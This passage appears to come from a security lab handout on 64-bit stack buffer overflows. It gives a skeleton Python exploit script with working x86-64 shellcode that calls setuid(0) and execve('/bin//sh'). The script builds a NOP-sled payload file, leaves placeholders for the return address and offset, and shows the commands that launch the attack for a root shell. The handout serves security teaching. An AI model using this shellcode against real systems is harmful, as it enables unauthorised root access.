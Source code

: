 To exploit the buffer-overflow vulnerability in the target program,
we need to prepare a payload, and save it inside \texttt{badfile}. 
We will use programs to do that.
We provide a Python skeleton program
called \texttt{exploit\_64.py}, which
can be downloaded from the lab's website.
The shellcode is already provided in the code. 
The code is incomplete, and students need to replace some of the essential 
values in the code. 


\begin{lstlisting}
#!/usr/bin/python3
import sys

shellcode_64= (
  "\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05"
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))


##################################################################
# Put the shellcode somewhere in the payload
start =  200                   # replace this number
content[start:start + len(shellcode_64)] = shellcode_64


# Decide the return address value 
# and save it somewhere in the payload
ret    = 0x00007FFFAABBCCDD   # replace this number
offset = 0                    # replace this number
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\begin{lstlisting}
$./exploit_64.py     // create the badfile
$./stack          // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}
 

\paragraph{Challenges.} Compared to buffer-overflow attacks on 32-bit 
machines, attacks on 64-bit machines is more difficult. The most 
difficult part is the address. Although the x64 architecture 
supports 64-bit address space, only the address from 
\texttt{0x00} through \texttt{0x00007FFFFFFFFFFF} is allowed. That means for 
every address (8 bytes), the highest two bytes are always zeros. 
This causes a problem.

